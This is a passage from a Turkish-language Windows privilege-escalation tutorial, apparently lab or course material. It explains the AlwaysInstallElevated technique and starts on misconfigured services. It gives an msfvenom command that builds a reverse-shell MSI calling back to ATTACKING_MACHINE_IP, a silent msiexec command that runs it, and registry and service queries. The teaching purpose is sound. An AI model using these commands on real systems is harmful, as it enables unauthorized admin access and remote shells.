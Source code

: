 Beklendiği gibi, taskusr1 ayrıcalıklarına sahip reverse shell'i alacağız.

### AlwaysInstallElevated

Windows yükleyici dosyaları (.msi dosyaları olarak da bilinir) sisteme uygulama yüklemek için kullanılır. Genellikle onu başlatan kullanıcının yetki düzeyiyle çalışırlar. Ancak bunlar, herhangi bir kullanıcı hesabından (ayrıcalıksız olanlar bile) daha yüksek yetkilerle çalışacak şekilde yapılandırılabilir. Bu, potansiyel olarak yönetici yetkileriyle çalışacak kötü amaçlı bir MSI dosyası oluşturmamıza olanak tanıyabilir.

Bu yöntem iki kayıt defteri değerinin ayarı olmasını gerektirir. Bunları aşağıdaki komutları kullanarak komut satırından sorgulayabilirsiniz.

    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Bu güvenlik açığından yararlanabilmek için her ikisinin de ayarlı olması gerekir. Aksi takdirde sömürü mümkün olmayacaktır. Bunlar ayarlanırsa aşağıda görüldüğü gibi msfvenom'u kullanarak kötü amaçlı bir .msi dosyası oluşturabilirsiniz:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

Bu bir reverse shell olduğundan, buna göre yapılandırılmış Metasploit Handler modülü ile dinlemeyi açmalısınız. Oluşturduğunuz dosyayı kurban bilgisayara aktardıktan sonra aşağıdaki komutla .msi dosyasını çalıştırıp reverse shell'i alabilirsiniz:

    C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

## Yanlış Yapılandırılmış Servisler

Windows servisleri, Servis Kontrol Yöneticisi (Service Control Manager) (SCM) tarafından yönetilir. SCM, servislerin durumunu gerektiği gibi yönetmekten, belirli bir servisin mevcut durumunu kontrol etmekten ve genel olarak servisleri yapılandırmak için bir yol sağlamaktan sorumlu bir süreçtir.

Bir Windows makinesindeki her servis, bir servis başlatıldığında SCM tarafından çalıştırılacak ilişkili bir yürütülebilir dosyaya sahip olacaktır. Servis yürütülebilir dosyalarının SCM ile iletişim kurabilmek için özel işlevler uyguladığını ve bu nedenle herhangi bir yürütülebilir dosyanın bir servis olarak başarıyla başlatılamayacağını unutmamak önemlidir. Her servis aynı zamanda servisin altında çalışacağı kullanıcı hesabını da belirtir.

Bir servisin yapısını daha iyi anlamak için sc qc komutuyla apphostsvc servis yapılandırmasını kontrol edelim:

    C:\> sc qc apphostsvc
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: apphostsvc
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Application Host Helper Service
            DEPENDENCIES       :
            SERVICE_START_NAME : localSystem
